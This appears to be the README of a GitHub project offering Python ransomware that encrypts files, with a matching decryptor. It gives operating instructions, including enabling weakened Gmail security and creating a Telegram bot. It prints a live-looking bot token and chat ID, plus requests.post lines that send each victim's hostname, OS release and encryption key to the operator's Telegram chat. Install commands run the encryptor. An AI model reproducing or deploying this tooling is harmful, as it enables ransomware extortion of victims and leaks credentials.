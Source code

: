 # Python Ransomware
Simple Ransomware using Python PyQt5 and Cryptography libraries.
You can make the design you want using the design files.

## Screenshot

![](encrypt_screenshot.png)
![](decrypt_screenshot.png)

## Video
[![](https://www.youtube.com/v=wGwfdWkOal4)]
[![python instagram bot](https://img.youtube.com/vi/wGwfdWkOal4/0.jpg)](https://www.youtube.com/watch?v=wGwfdWkOal4)

## Getting Started

# Requirements
certifi==2021.5.30
cffi==1.14.6
charset-normalizer==2.0.6
cryptography==35.0.0
idna==3.2
pycparser==2.20
PyQt5==5.15.4
PyQt5-Qt5==5.15.2
PyQt5-sip==12.9.0
requests==2.26.0
urllib3==1.26.7

### Operating Instructions

#### 1) Send Email
to be able to send an email<br/>

>1)open your gmail account<br/>
>2)https://myaccount.google.com/ click<br/>
>3)Activate "Less secure app access"<br/>
example:
[![](https://www.youtube.com/watch?v=FVi-m1qmJD0)]
[![](https://www.youtube.com/v=FVi-m1qmJD0)]
[![Send Email](https://img.youtube.com/vi/FVi-m1qmJD0/0.jpg)](https://www.youtube.com/watch?v=FVi-m1qmJD0)

#### 2) Send Telegram (api) Message
Telegram api    (https://core.telegram.org/bots/api)<br/>

>1)open telegram<br/>
>2)search BotFather<br/>
>3)/newbot<br/>
>4)Choose a username for your bot (ransom0wareusername_bot)<br/>

    Use this token to access the HTTP API:
    3416572059:AAGB7p9WAe0jWamE89ftR02MR2WgbxlLZEg

Chat Id<br/>

>1)search Json Dump Bot<br/>
>2)/start<br/>
>3)telegramapi<br/>

    "from": {
        "id": 3213112048, your chat_id

    Send Message Example:

        requests.post("https://api.telegram.org/bot3416572059:AAGB7p9WAe0jWamE89ftR02MR2WgbxlLZEg/sendMessage",
                data={"chat_id": "3213112048", "text": f"Node: {node} Release: {release} \nKey: {str(key)}"})

        requests.post("https://api.telegram.org/bot<your_telegram_api>/sendMessage",
                data={"chat_id": "<your_telegram_chat_id>", "text": f"Node: {node} Release: {release} \nKey: {str(key)}"})


# Installation

```sh
$ git clone https://github.com/alii76tt/python_ransomware
$ cd python_ransomware
$ pip install -r requirements.txt
$ cd Encrypt
$ python3 encrypt.py
$ cd Decrypt
$ python3 decrypt.py
```
